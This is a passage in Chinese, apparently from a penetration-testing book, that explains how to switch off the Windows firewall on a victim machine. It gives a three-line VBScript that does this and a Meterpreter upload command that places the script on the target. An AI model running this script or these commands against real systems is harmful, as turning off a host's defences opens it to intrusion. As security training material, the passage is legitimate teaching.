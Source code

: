 ## 通过 VBScript 禁用防火墙

还有另一种禁用防火墙的方法，即在受害者系统上执行一个小的 Visual Basic 脚本。首先，我们必须在文本文件中编写三行代码。

```
Set objFirewall = CreateObject("HNetCfg.FwMgr")
Set objPolicy = objFirewall.LocalPolicy.CurrentProfile

objPolicy.FirewallEnabled = FALSE
```

现在将此代码保存为`.vbs`扩展名。例如，在这里我们将其命名为`disable.vbs`。

![通过 VBScript 禁用防火墙](img/3589_09_07.jpg)

我们的脚本已准备就绪；现在我们必须将此脚本上传到受害者的系统中。要上传，我们将使用 Meterpreter 上传命令。例如，在我们的案例中，我们输入`upload root/Desktop/disable.vbs C:\`。

![通过 VBScript 禁用防火墙](img/3589_09_08.jpg)

因此，我们已将我们的`disable.vbs`脚本上传到受害者的`C:`驱动器中。让我们在受害者的`C:`驱动器中检查脚本是否已上传。

![通过 VBScript 禁用防火墙](img/3589_09_09.jpg)

